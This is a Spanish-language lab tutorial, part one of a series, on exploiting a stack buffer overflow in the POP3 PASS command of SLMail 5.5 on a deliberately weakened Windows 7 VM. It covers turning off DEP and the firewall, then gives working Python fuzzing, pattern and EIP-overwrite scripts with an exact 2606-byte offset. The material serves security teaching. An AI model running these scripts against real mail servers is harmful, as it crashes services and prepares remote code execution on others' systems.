



# Buffer Overflow - Windows 7 (32-bit) | SLMail 5.5

---

## 📋 Índice
- [Preparación del entorno](#preparación-del-entorno)
- [Fase Inicial: Fuzzing y Control del EIP](#fase-inicial--fuzzing-y-control-del-eip)
- [Siguientes pasos](#siguientes-pasos)

---

## Preparación del entorno

### 🖥️ Máquina virtual objetivo

**Especificaciones:**
- **SO**:  Windows 7 Home Basic (32-bit)
- **Descarga**: [Archive. org - Windows 7 Home Basic](https://archive.org/download/hi-tn-fi-nd.-com-windows-7-home-basic-32-bit-64-bit/_HiTnFiND.COM_Windows_7_Home_Basic_32Bit_64Bit.iso)
- **Hipervisor**: VMware o VirtualBox

> [!warning] Requisitos previos
> Esta máquina será **vulnerable intencionalmente**. Úsala solo en un entorno aislado de laboratorio.

---

### 🔧 Instalación de herramientas

#### 1️⃣ Immunity Debugger + mona.py

**Immunity Debugger** es un debugger basado en Python, disponible solo para Windows.  Necesita: 
- Python instalado
- **mona.py** - Plugin de análisis para buffer overflow

```bash
# Descargar mona.py desde el repositorio de Corelan
wget https://raw.githubusercontent.com/corelan/mona/refs/heads/master/mona.py
```

**Instalación:**
1. Descarga e instala [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
2. Coloca `mona.py` en:
   ```
   C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands
   ```

> [!tip] Verificación
> Abre Immunity Debugger y en la consola inferior escribe `!mona` — debe mostrar el menú de ayuda.

---

#### 2️⃣ Deshabilitar DEP (Data Execution Prevention)

DEP es una protección que impide ejecutar código en zonas de memoria no designadas (como el stack). Para un buffer overflow funcional, debemos deshabilitarlo.

**Pasos en Windows 7:**
1. Panel de Control → Sistema y Seguridad → Sistema
2. Configuración avanzada del sistema
3. Pestaña **Opciones avanzadas**
4. Botón **Configuración** (bajo "Rendimiento")
5. Pestaña **Prevención de ejecución de datos (DEP)**
6. Selecciona:  **Desactivar DEP solo para programas y servicios esenciales de Windows**
7. **Reinicia** el sistema



> [!warning] DEP y ejecución de shellcode
> Sin deshabilitar DEP, el shellcode almacenado en el stack será bloqueado y el programa terminará sin ejecutar nuestro código malicioso.

---

#### 3️⃣ Deshabilitar Firewall de Windows

El firewall puede bloquear conexiones entrantes necesarias para las pruebas.

**Deshabilitar Firewall:**
1. Panel de Control → Firewall de Windows
2. **Activar o desactivar el Firewall de Windows** (opción izquierda)
3. Deshabilita en ambos contextos: 
   - Redes privadas
   - Redes públicas
4.  Aplica los cambios

> [!danger] Seguridad
> Solo deshabilita el firewall en máquinas virtuales aisladas de laboratorio.

---

#### 4️⃣ Instalar SLMail 5.5

**SLMail** es un servidor SMTP/POP3 vulnerable a buffer overflow en el comando `PASS` del puerto 110 (POP3).

**Descargar:** [SLMail 5.5](https://www.slmail.net/)

**Puertos:**
- **25** - SMTP
- **110** - POP3 (vulnerable a buffer overflow)

**Verificar instalación:**
```bash
telnet <IP_VICTIMA> 110
```

Debe mostrar: 
```
+OK SLmail 5.5 POP3 Server Ready <mensaje>
```

---

## Fase Inicial — Fuzzing y control del registro EIP

### 🎯 Objetivo

1.  Verificar que el servicio es vulnerable a buffer overflow
2. Encontrar el **offset exacto** para sobrescribir el registro **EIP**
3. Demostrar control del flujo de ejecución

### 📊 ¿Qué es el registro EIP?

| Característica | Descripción |
|---|---|
| **Nombre** | Extended Instruction Pointer |
| **Función** | Almacena la dirección de memoria de la siguiente instrucción a ejecutar |
| **Tamaño** | 4 bytes (32-bit) |
| **Importancia** | Si lo controlamos, redirigimos la ejecución a donde queramos |

> [!info] Buffer Overflow
> Cuando escribimos más datos de los que el buffer puede almacenar, sobrescribimos memoria adyacente, incluyendo el EIP.  Si llenamos esa región con direcciones controladas, ejecutamos código malicioso.

---

### 🔍 Paso 1: Fuzzing básico (5000 bytes)

Crearemos un script Python que envía 5000 letras 'A' al campo `PASS` de SLMail:

```python name="fuzzing_slmail.py"
import socket
import sys

IP_ADDRESS = "192.168.1.5"  # IP de la víctima
PORT = 110                  # Puerto POP3 de SLMail
BUFFER_LENGTH = 5000        # Tamaño del buffer de prueba

def exploit(ip, port, length):
    """
    Script de fuzzing para SLMail 5.5
    Envía datos excesivos al campo PASS para provocar crash
    """
    try:
        # Crear socket TCP
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        
        # Recibir banner del servidor
        banner = s.recv(1024)
        print(f"[+] Banner recibido: {banner.decode()}")
        
        # Enviar comando USER
        s.send(b"USER test\r\n")
        response = s.recv(1024)
        print(f"[+] Respuesta USER: {response.decode()}")
        
        # Enviar comando PASS con buffer overflow
        payload = b"PASS " + b"A" * length + b"\r\n"
        print(f"[! ] Enviando {length} bytes al campo PASS...")
        s.send(payload)
        
        # Cerrar conexión
        s.close()
        print("[+] Payload enviado.  Verifica el crash en Immunity Debugger.")
        
    except Exception as e:
        print(f"[-] Error: {e}")

if __name__ == '__main__': 
    if len(sys.argv) > 1:
        IP_ADDRESS = sys.argv[1]
        if len(sys.argv) > 2:
            BUFFER_LENGTH = int(sys. argv[2])
    
    print(f"\n[*] Fuzzing SLMail en {IP_ADDRESS}:{PORT}")
    print(f"[*] Tamaño del buffer: {BUFFER_LENGTH} bytes\n")
    exploit(IP_ADDRESS, PORT, BUFFER_LENGTH)
```

**Ejecución:**
```bash
python fuzzing_slmail.py 192.168.1.5 5000
```

**Resultado esperado:**


El registro EIP mostrará `41414141` (representación hexadecimal de "AAAA"). Esto demuestra que: 
✅ El servicio es vulnerable a buffer overflow  
✅ Podemos sobrescribir el EIP  
✅ Podemos redirigir el flujo de ejecución

---

### 🧩 Paso 2: Encontrar el offset exacto

El problema ahora es:  **¿A cuántos bytes llegamos al EIP?**

Usar 5000 As es ineficiente. Necesitamos calcular el **offset** exacto. 

#### Generar patrón con Metasploit

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

Esto genera un patrón único de 5000 caracteres: 
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2... 
```

Cada subcadena es única, lo que permite identificar exactamente cuál bytes sobrescribieron el EIP.

---

#### Script con patrón

```python name="pattern_fuzzing.py"
import socket

IP_ADDRESS = "192.168.1.5"
PORT = 110

# Patrón generado por pattern_create.rb
PATTERN = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4"

def exploit():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((IP_ADDRESS, PORT))
    
    banner = s.recv(1024)
    print(f"[+] Banner: {banner. decode()}")
    
    s.send(b"USER test\r\n")
    s.recv(1024)
    
    # Enviar patrón en lugar de As
    print("[!] Enviando patrón para encontrar offset...")
    s.send(b"PASS " + PATTERN. encode() + b"\r\n")
    s.close()
    print("[+] Patrón enviado. Verifica el valor del EIP en Immunity Debugger.")

if __name__ == '__main__':
    exploit()
```

**Ejecución:**
```bash
python pattern_fuzzing.py
```

**En Immunity Debugger:**
- El EIP mostrará algo como `39654138` (valor del patrón)
- Anotamos este valor

---

#### Calcular el offset con pattern_offset.rb

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x39654138
```

**Salida:**
```
[*] Exact match at offset 2606
```

✅ **Resultado:** Se necesitan **2606 bytes** para llegar al EIP. 

---

### 🎯 Paso 3: Demostrar control total del EIP

Ahora sabemos el offset. Enviamos: 
- **2606 As** (para llenar el buffer y llegar al EIP)
- **4 Bs** (para sobrescribir el EIP con `0x42424242`)

```python name="control_eip.py"
import socket

IP_ADDRESS = "192.168.1.5"
PORT = 110

OFFSET = 2606  # Bytes hasta el EIP
BEFORE_EIP = b"A" * OFFSET
EIP = b"B" * 4  # 4 bytes para sobrescribir el registro EIP

PAYLOAD = BEFORE_EIP + EIP

def exploit():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP_ADDRESS, PORT))
        
        banner = s.recv(1024)
        print(f"[+] Conectado:  {banner.decode().strip()}")
        
        # Enviar USER
        s.send(b"USER test\r\n")
        s.recv(1024)
        
        # Enviar PASS con payload
        print(f"[!] Enviando payload...")
        print(f"    - {OFFSET} bytes (A) hasta EIP")
        print(f"    - 4 bytes (B) para EIP = 0x42424242")
        
        s.send(b"PASS " + PAYLOAD + b"\r\n")
        s.close()
        
        print("[✓] Payload enviado correctamente")
        print("[*] EIP debe mostrar: 0x42424242 en Immunity Debugger")
        
    except Exception as e:
        print(f"[-] Error:  {e}")

if __name__ == '__main__':
    print(f"\n[*] Explotando SLMail en {IP_ADDRESS}:{PORT}\n")
    exploit()
```

**Ejecución:**
```bash
python control_eip.py
```

**En Immunity Debugger - Resultado esperado:**

| Registro | Valor | Representación |
|----------|-------|---|
| EIP | 0x42424242 | BBBB |
| ESP | Dirección dinámica | Apunta a C's (espacio para shellcode) |

```
EIP = 0x42424242 ✓ Control total del flujo de ejecución
```

---

## 📊 Diagrama del Buffer Overflow



---

## 💡 Conceptos clave

> [!info] Registros en x86 (32-bit)
> - **EIP** (Instruction Pointer): Próxima instrucción a ejecutar
> - **ESP** (Stack Pointer): Tope del stack
> - **EBP** (Base Pointer): Base del stack frame

> [!tip] Orden de los datos en el stack
> ```
> [Buffer overflow (2606 A's)]
> [EIP (4 B's) = 0x42424242]
> [Espacio para shellcode]
> [Datos locales]
> ```

> [!warning] Debugging en Immunity Debugger
> - **F8**: Step over
> - **F7**: Step into
> - **F9**: Run
> - **Espacio**: Toggle breakpoint
> - Usa el plugin mona:  `!mona help`

---

## 🔗 Siguientes pasos



Continúa en:  **[[Parte 2 - Asignación de espacio para el SHELLCODE]]**

---

## 📚 Recursos y referencias

> [!info] Herramientas utilizadas
> - **Immunity Debugger**: Debugger avanzado para análisis de buffer overflow
> - **mona. py**: Plugin que automatiza búsqueda de gadgets y JMP ESP
> - **Metasploit Framework**: Herramientas para generación de patrones y shellcode
> - **SLMail 5.5**: Servidor SMTP vulnerable (propósito educativo)

> [!example] Comandos importantes
> ```bash
> # Generar patrón de 5000 bytes
> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
> 
> # Encontrar offset de un valor EIP
> /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x39654138
> 
> # Conectar a SLMail por telnet
> telnet 192.168.1.5 110
> ```

---

> [!success] Conclusión de la Fase 1
> ✅ Entorno de laboratorio configurado  
> ✅ Vulnerabilidad de buffer overflow confirmada  
> ✅ Control del registro EIP demostrado  
> ✅ Offset exacto calculado (2606 bytes)  
> 
> **Estado:** Listo para la Fase 2 - Shellcode y ejecución remota